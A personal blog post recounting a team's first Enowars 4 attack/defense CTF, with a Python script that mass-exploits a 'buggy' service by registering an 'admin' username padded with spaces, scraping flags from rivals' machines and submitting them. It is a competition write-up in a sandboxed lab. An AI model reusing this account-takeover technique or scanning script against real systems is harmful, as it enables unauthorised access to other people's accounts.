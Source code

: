 ```yaml
---
title: Enowars 4 CTF
author: Lim Kai Xian (AxiaMil)
date: 2020-07-19 00:00:00 +0800
categories: [CTF, Enowars-4]
tags: [ctf, tech, web]
toc: true
comments: true
---
```



# What is Enowars Capture The Flag Competition

Enowars Capture The Flag competiton is by a CTF-Team & Workgroup for Computer Security located in TU Berlin. It is a 2 man Attack / Defense CTF played online where teams will have to attack and defend their vulnerable Machine by firstly identifying vulnerabilities in the machine. Teams will be awarded points base on the time their service is up and submitting flags to the server. After identifying the vulnerabilities, teams will need to patch their service in order for them to gain points as their service is up while preventing other teams from exploiting their services and getting the flag. Points are deducted when other teams get flag from your vulnerable machine.

![upload-image](/assets/img/blog/enowars-4-CTF/cover.png)

The enowars server will check if your service is up and put in flags every round which is about every 2 minutes or so. Therefore every 2 minutes there will be new flags for each team.


# Our Experience

As this was my first time trying out an actual Attack / Defense CTF we spent some time finding out how it works. To add on, the timezone for the CTF was from 8pm to 5am hence we were not able to finish solving all the Challenges. Luckily, ColdSpot found a vulnerability on the service buggy and got the flag for it.

From there, we were able to write a script using python to get the flag automatically and submit to the flag collecter (enowars' server). This is our python script to solve the buggy challenge, It is in nowhere perfect as it took in other values other than the flag but submitting wrong flags wont penalize us so we did not really care much (It wasted time though).

```
import requests
import re
import socket
import string
import signal
from contextlib import contextmanager

@contextmanager
def timeout(time):
    # Register a function to raise a TimeoutError on the signal.
    signal.signal(signal.SIGALRM, raise_timeout)
    # Schedule the signal to be sent after ``time``.
    signal.alarm(time)

    try:
        yield
    except TimeoutError:
        pass
    finally:
        # Unregister the signal so it won't be triggered
        # if the timeout is not reached.
        signal.signal(signal.SIGALRM, signal.SIG_IGN)


def raise_timeout(signum, frame):
    raise TimeoutError

def is_ascii(s):
    return all(ord(c) < 128 for c in s)

def get_flags():
    f = open("flag.txt", "r")
    known_flags = f.read().split('\n')
    ip_blacklist = [16,22,24,25,26,28,37,58,75,110,113,115,126,130,133,156,182,187,194]
    for i in range(1,198):
        if i in ip_blacklist:
            continue
        with timeout(10):
            try: 
                url = 'http://10.0.0.' + str(i) + ':7890/register'
                print(url)
                user_pass = {'username':'admin                                   ','pw':'lol'}
                s = requests.Session()
                s.post(url, data=user_pass)
                admin_url = 'http://10.0.0.' + str(i) + ':7890/user/admin'
                x = s.get(admin_url)
                result = re.findall("Status: (.*)</h3>", x.text)
                for u in result:
                    if string.printable not in u and u not in known_flags:
                        if u.strip() != '' and not is_ascii(u):
                            a.append(u)
            except:
                continue
    print('done')
while True:
    a = []

    get_flags()

    f_write = open("flag.txt", "a+")

    HOST = '10.0.13.37'
    PORT = 1337
    print(len(a))
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        while True:
            for i in a:
                s.sendall((i+'\n').encode('utf-8'))
                print(i+'\n')
                print(s.recv(1024))
                f_write.write(i + '\n')
            break
```

The enowars server will check if your service is up and put in flags every round which is about every 2 minutes or so. Therefore every 2 minutes there will be new flags for each team.

[Check their website here](https://enowars.com/)

# Placement

Before, we went to sleep we were placed at the 40th position and were also the 3rd for Singapore.

![upload-image](/assets/img/blog/enowars-4-CTF/score.png)

Waking up, we were suprised we have passed the team above us and have gotten the 39th position as the script was running overnight for us LOL.

# Overall

Overall, even though we did not place high for the competition it was a good introduction to Attack / Defense CTF in general. I'm sure we will be able to perfom much better in the next Attack / Defense CTF we attend

# Resources & Challenges

[Challenges/Vulnerable Services](https://github.com/enowars/enowars4-vulnbox-services  
[Scoreboard used (Bambi Scoreboard)](https://github.com/enowars/bambi-scoreboard)  
[Infrastructure used (Bambi CTF Infrastructure)](https://github.com/enowars/bambictf)  